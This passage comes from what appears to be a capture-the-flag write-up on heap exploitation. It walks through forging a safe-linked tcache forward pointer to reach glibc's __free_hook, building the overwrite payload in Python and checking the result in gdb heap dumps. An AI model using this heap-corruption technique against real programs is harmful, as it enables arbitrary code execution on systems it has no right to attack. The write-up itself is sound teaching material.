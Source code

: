 So we know the offset. Remember the new mechanism for the forward pointer and we can fake the forward pointer to malloc `__free_hook` with the payload below:

```py
# The chunk we overwrite forward pointer has address at "heap + 0xb40"
fake_fw_pointer = ((heap + 0xb40) >> 12) ^ (libc.sym['__free_hook'])
```

So that we fake the previous chunk into `__free_hook` and write it with the chunk from unsorted bin. We will `malloc` a chunk with size of 0x130 for overwriting:

```py
payload = b'\x00'*0x100                 # Padding to tcache
payload += flat(0, 0x111)               # Prev_size and size of tcache
payload += flat(fake_fw_pointer)        # Overwrite forward pointer
add(10, 0x130, payload)
```

And let’s check if our forward pointer is correct or not (Address changed):

```
gef➤  x/50xg 0x0000000000caca20
0xcaca20:   0x0000000000000000  0x0000000000000141
0xcaca30:   0x00007f43934d0e10  0x00007f43934d0e10    <-- New chunk from unsorted bin
0xcaca40:   0x0000000000000000  0x0000000000000000
0xcaca50:   0x0000000000000000  0x0000000000000000
0xcaca60:   0x0000000000000000  0x0000000000000000
0xcaca70:   0x0000000000000000  0x0000000000000000
0xcaca80:   0x0000000000000000  0x0000000000000000
0xcaca90:   0x0000000000000000  0x0000000000000000
0xcacaa0:   0x0000000000000000  0x0000000000000000
0xcacab0:   0x0000000000000000  0x0000000000000000
0xcacac0:   0x0000000000000000  0x0000000000000000
0xcacad0:   0x0000000000000000  0x0000000000000000
0xcacae0:   0x0000000000000000  0x0000000000000000
0xcacaf0:   0x0000000000000000  0x0000000000000000
0xcacb00:   0x0000000000000000  0x0000000000000000
0xcacb10:   0x0000000000000000  0x0000000000000000
0xcacb20:   0x0000000000000000  0x0000000000000000
0xcacb30:   0x0000000000000000  0x0000000000000111
0xcacb40:   0x0000000000cac4bc  0x0000000000cac010    <-- Tcache
0xcacb50:   0x0000000000000000  0x0000000000000000
0xcacb60:   0x0000000000000000  0x00000000000000e1
0xcacb70:   0x00007f43934d0c00  0x00007f43934d0c00    <-- Unsorted bin
0xcacb80:   0x0000000000000000  0x0000000000000000
0xcacb90:   0x0000000000000000  0x0000000000000000
0xcacba0:   0x0000000000000000  0x0000000000000000
```

It malloc successfully, let’s check if everything is on the right path or not:

```
gef➤  x/50xg 0x0000000000caca20
0xcaca20:   0x0000000000000000  0x0000000000000141
0xcaca30:   0x0000000000000000  0x0000000000000000    <-- New chunk from unsorted bin
0xcaca40:   0x0000000000000000  0x0000000000000000
0xcaca50:   0x0000000000000000  0x0000000000000000
0xcaca60:   0x0000000000000000  0x0000000000000000
0xcaca70:   0x0000000000000000  0x0000000000000000
0xcaca80:   0x0000000000000000  0x0000000000000000
0xcaca90:   0x0000000000000000  0x0000000000000000
0xcacaa0:   0x0000000000000000  0x0000000000000000
0xcacab0:   0x0000000000000000  0x0000000000000000
0xcacac0:   0x0000000000000000  0x0000000000000000
0xcacad0:   0x0000000000000000  0x0000000000000000
0xcacae0:   0x0000000000000000  0x0000000000000000
0xcacaf0:   0x0000000000000000  0x0000000000000000
0xcacb00:   0x0000000000000000  0x0000000000000000
```